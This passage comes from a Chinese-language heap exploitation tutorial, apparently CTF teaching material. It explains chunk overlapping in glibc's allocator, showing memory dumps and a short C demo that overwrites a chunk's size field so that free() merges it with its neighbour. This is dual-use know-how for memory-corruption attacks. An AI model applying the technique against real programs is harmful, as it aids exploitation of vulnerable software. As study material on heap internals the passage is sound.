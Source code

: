```
    return 0;
}
```
当两个malloc语句执行之后，堆的内存分布如下
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk 1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021 <=== chunk 2
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000020fc1 <=== top chunk
```
之后 我们把chunk1的size域更改为0x41，0x41是因为chunk的size域包含了用户控制的大小和header的大小。如上所示正好大小为0x40。在题目中这一步可以由堆溢出h
```
0x602000:	0x0000000000000000	0x0000000000000041 <=== 篡改大小
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000020fc1 
```
执行free之后，我们可以看到chunk2与chunk1合成一个0x40大小的chunk，一起释放了。
```
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30]  ←  Chunk(addr=0x602010, size=0x40, flags=PREV_INUSE) 
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
```
之后我们通过malloc(0x30)得到chunk1+chunk2的块，此时就可以直接控制chunk2中的内容，我们也把这种状态称为overlapping chunk。
```
call   0x400450 <malloc@plt>
mov    QWORD PTR [rbp-0x8], rax

rax = 0x602010
```

## 基本示例2
通过之前深入理解堆的实现部分的内容，我们得知处于fastbin范围的chunk释放后会被置入fastbin链表中，而不处于这个范围的chunk被释放后会被置于unsorted bin链表中。
以下这个示例中，我们使用0x80这个大小来分配堆（作为对比fastbin的范围是0x70）
```
int main()
{
    void *ptr,*ptr1;
    
    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2
    malloc(0x10);//防止与top chunk合并
    
    *(int *)((int)ptr-0x8)=0xb1;
    free(ptr);
    ptr1=malloc(0xa0);
}
```
在这个例子中，因为分配的size不处于fastbin的范围，因此在释放时如果与top chunk相连会导致和top chunk合并。所以我们需要额外分配一个chunk，把释放的块与top chunk隔开。
```
0x602000:	0x0000000000000000	0x00000000000000b1 <===chunk1 篡改size域
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
```